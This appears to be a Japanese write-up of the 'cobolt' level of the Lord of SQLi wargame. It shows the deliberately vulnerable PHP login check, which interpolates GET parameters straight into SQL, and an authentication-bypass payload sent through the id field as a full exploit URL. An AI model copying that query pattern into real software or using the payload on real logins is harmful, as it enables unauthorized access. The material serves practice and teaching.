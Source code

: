 # cobolt

## answer

```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%20or%20%271%27=%271%20&pw=1
```

## problem

```
query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## memo


```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=12&pw=aa
```

みたいに打ち込んであげると、「query : select id from prob_cobolt where id='12' and pw=md5('aa')」という文字が画面に現れる。

```if($result['id']== 'admin') solve("cobolt");```とある通り、idがadminとなっているユーザーでログインを成功させたらいいっぽい。

ただ、パスワードはmd5化されるような記述がある。

挙動は予想がつくが、前の問題と同じコードで試す。

```?id=admin&pw=aa' or '1'='1```

結果、```query : select id from prob_cobolt where id='admin' and pw=md5('aa' or '1'='1')```となった。

やっぱりmd5に部分に貼ってしまうので、その他の方法を考える。

後半のコードが関数md5の引数に入ってしまうので、idの方の入力欄で閉じておきたい？？（可能なら）

例えば、```?id=admin' or '1'='1 &pw=1```

やったぜ。

最終的なエクスプロイトはこれ。

```https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%20or%20%271%27=%271%20&pw=1```

ところで、Not Foundのときに出てくるこれ。

![notFound](./images/notFound.png "なんやこいつ")


## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [md5 | php manual](https://www.php.net/manual/ja/function.md5.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)